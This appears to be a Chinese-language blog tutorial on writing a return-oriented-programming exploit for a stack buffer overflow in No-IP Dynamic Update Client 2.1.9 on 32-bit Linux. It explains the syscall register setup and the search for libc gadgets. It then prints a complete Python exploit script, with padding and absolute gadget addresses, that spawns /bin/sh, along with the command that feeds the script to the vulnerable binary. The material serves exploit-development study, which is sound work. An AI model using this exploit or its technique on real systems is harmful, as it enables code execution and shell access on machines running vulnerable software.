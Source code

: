 title: 构造 NO IP(DUC) ROP exploit
date: 2016-03-29 10:53:49
tags: 缓冲区溢出
---
[No-IP Dynamic Update Client (DUC) 2.1.9 缓冲区溢出分析](http://huirong.github.io/2016/03/28/NoIP-StackOverflow/)，分析了漏洞成因和基本 POC 构造。
一般情况，应用程序的栈和堆是不可执行的，本文旨在编写通用的exploit。

# I、实验环境
 - 操作系统： kali 3.18.0-kali3-686-pae #1 SMP Debian 3.18.6-1~kali2
 - 调试工具：edb-debugger
 - ROP gadget 搜索工具：ropeme
 - 应用程序：[No-IP](https://www.exploit-db.com/apps/3b0f5f2ff8637c73ab337be403252a60-noip-duc-linux.tar.gz)

# II、exploit 结构
关于 ROP exploit 详细构造过程，请参考[ROP exploit 编写](http://huirong.github.io/2016/03/11/ROP-exploit/)。

## ① 参数分布
Linux 系统调用参数存放于 ebx,edx,esi,edi，因此
 - ebx：存放字符串"/bin/sh" 地址
 - ecx：存放指向 argp 数组的指针
 - edx：存放指向 envp 数组的指针
 - eax：系统调用号 0xb

## ② exploit 结构
1. 清零 eax
2. ecx 设置为 argp 数组指针
3. edx 设置为 anvp 数组指针
4. 将 "/bin/sh" 地址存放于 ebx
5. eax 值加 0xb
6. 执行系统调用,int 0x80
7. eax 清零
8. eax 加 1
9. ebx 清零
10. 执行系统调用，int 0x1

 <font color="red">Tips：</font> 7、8、9、10 正常退出shellcode，尽管没有这几个 gadgets，shellcode 依然可以新建shell，但要具有良好的编写习惯。
详细请参考 [Shellcoding for Linux and Windows Tutorial](http://www.vividmachines.com/shellcode/shellcode.html)

# III、搜索 ROP gadgets
## ① 查看 noip 关联的库
 - 查看 noip 进程号pid 
    ```
    ps -aux | grep noip
    ```
    ![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f2excag2rij30r206ntc5.jpg)

    进程 pid : 6589

 - 查看对应 pid 的映射表maps
    cat /proc/pid/maps
    ```
    cat /proc/6589/maps
    ```
    ![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f2exjrkobmj30pd0f1do1.jpg)

## ② 调用 ropeme generate 函数
系统库函数 /lib/i386-linux-gnu/i686/cmov/libc-2.19.so 包含丰富的 gadgets，足够组成 ROP exploit，因此选择搜索库函数 /lib/i386-linux-gnu/i686/cmov/libc-2.19.so。

 <font color="red">此库函数的起始地址 ：0xb7e15000需用此地址计算 gadgets 的绝对地址。</font>
 
```
generate /lib/i386-linux-gnu/i686/cmov/libc-2.19.so 4
```
 ![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f2exwnv2q3j30lw08cmzi.jpg)

## ③ 搜索 xor eax,eax;ret;
```
search xor eax %
```
![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f2exzlzap0j30kb0entcl.jpg)

结果集中的所有 gadgets 地址都是相对地址
<font color="red">绝对地址 = 相对地址 + 库函数起始地址</font> 

选取 0x2ed2cL: xor eax eax ;;
绝对地址 ：0xb7e15000 + 0x2ed2c = 0xb7e43d2c
## ④ 搜索其他 gadgets，并生成 exploit
以同样的方式搜索其他 gadgets ，并计算绝对地址。

前文介绍，返回地址的偏移量为：296，因此要先填充 296 个 '\x90'。
最后 exploit：
```
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''
p += '\x90'*296

p += pack('<I', 0xb7f01e30) # 0xece30L: pop ecx ; pop eax ;;
p += '/bin'
p += pack('<I', 0x08052140) # @ .data
p += pack('<I', 0xb7e42ece) # 0x2deceL: mov [eax] ecx ;;

p += pack('<I', 0xb7f01e30) # 0xece30L: pop ecx ; pop eax ;;
p += '//sh'
p += pack('<I', 0x08052144) # @ .data + 4
p += pack('<I', 0xb7e42ece) # 0x2deceL: mov [eax] ecx ;;

p += pack('<I', 0xb7e43d2c) # 0x2ed2cL: xor eax eax ;;
p += pack('<I', 0xb7e16aa2) # 0x1aa2L: pop edx ;;
p += pack('<I', 0x08052148) # @ .data + 8
p += pack('<I', 0xb7f19611) # 0x104611L: mov [edx] eax ; xor eax eax ;;
p += pack('<I', 0xb7e430cb) # 0x2e0cbL: pop ecx ; pop edx ;;
p += pack('<I', 0x08052148) # @ .data + 8
p += pack('<I', 0x08052148) # @ .data + 8 
p += pack('<I', 0xb7e2e8ae) # 0x198aeL: pop ebx ;;
p += pack('<I', 0x08052140) # @ .data
p += pack('<I', 0xb7f56e56) # 0x141e56L: add eax 0xb ;;
p += pack('<I', 0xb7fdfce0) # 0xce0L: int 0x80 ;;

p += pack('<I', 0xb7e96547) # xor edx edx ; mov eax edx ;;
p += pack('<I', 0xb7eedfc2) # mov ebx edx ;;
p += pack('<I', 0xb7fdfd76) # 0xd76L: add al 0x1 ;;
p += pack('<I', 0xb7fdfce0) # 0xce0L: int 0x80 ;;

print p
```

# IV、以 ROP exploit 运行 noip
```
./NO-IP/noip-2.1.9-1/binaries/noip2-i686 -i "`./NO-IP/ropExp.py`"
```

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f2ey6al4fbj30kd05habx.jpg)

# V、参考文献
[No-IP Dynamic Update Client (DUC) 2.1.9 - Local IP Address Stack Overflow](https://www.exploit-db.com/exploits/25411/)
